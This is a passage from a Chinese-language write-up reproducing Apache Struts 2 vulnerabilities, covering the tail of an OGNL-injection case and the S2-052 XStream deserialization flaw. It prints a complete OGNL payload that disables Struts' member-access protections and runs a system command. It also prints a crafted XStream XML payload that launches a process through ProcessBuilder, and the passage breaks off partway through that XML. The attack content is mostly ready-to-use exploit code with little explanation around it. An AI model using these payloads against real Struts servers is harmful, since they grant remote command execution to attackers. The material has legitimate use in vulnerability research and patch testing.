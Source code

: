 **影响版本**：Apache Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本

复现：

POC 

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context["com.opensymphony.xwork2.ActionContext.container"]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream())).(#q)}


```

![image-20201216175142390](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216175142390.png)



## 0X0B S2-052复现

原理：Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，可被远程攻击。

影响版本：

- Struts 2.1.2 - Struts 2.3.33
- Struts 2.5 - Struts 2.5.12

![image-20201216180006087](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216180006087.png)

edit

抓包添加poc

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
```